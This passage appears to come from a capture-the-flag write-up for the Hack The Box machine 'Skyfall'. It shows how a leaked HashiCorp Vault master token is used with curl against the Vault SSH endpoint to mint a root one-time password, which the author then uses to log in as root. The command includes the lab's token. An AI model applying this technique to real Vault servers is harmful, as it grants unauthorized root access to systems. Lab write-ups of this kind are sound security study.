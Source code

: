 Hell yeah! We found a master token!! With this, it'll be a piece of cake to connect as admin.

To do this, we follow [the doc](https://developer.hashicorp.com/vault/api-docs/secret/ssh#generate-ssh-credentials), that tells us to do send this :

```bash
curl \
    --header "X-Vault-Token: ..." \
    --request POST \
    --data @payload.json \
    http://127.0.0.1:8200/v1/ssh/creds/my-role
```

Wih this sample payload :

```json
{
  "ip": "1.2.3.4"
}
```

We just got the Master Token as our `X-Vault-Token` , the `ip` is that of the machine (`10.10.11.254`). We know the role is `admin_otp_key_role` so we'll connect to `http://prd23-vault-internal.skyfall.htb/v1/ssh/creds/admin_otp_key_role`. Maybe we dont need a file for the json and in the doc, we can add a username (so let's get cocky and add admindaddy as our username). This gives us this command :

```bash
curl --header "X-Vault-Token: hvs.I0ewVsmaKU1SwVZAKR3T0mmG" --request POST --data '{"ip":"10.10.11.254", "username":"admindaddy"}' http://prd23-vault-internal.skyfall.htb/v1/ssh/creds/admin_otp_key_role
```

Try it :

<img src="/assets/img/Skyfall/sky21.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

Okay so this system is boring and I cannot call myself admindaddy. But `root` is probably an admin, so let's do root as our username :

<img src="/assets/img/Skyfall/sky22.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

And we finally have an `OTP` key for root! Let's connect through `ssh` using that key :

<img src="/assets/img/Skyfall/sky23.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

And that's an insane done!!!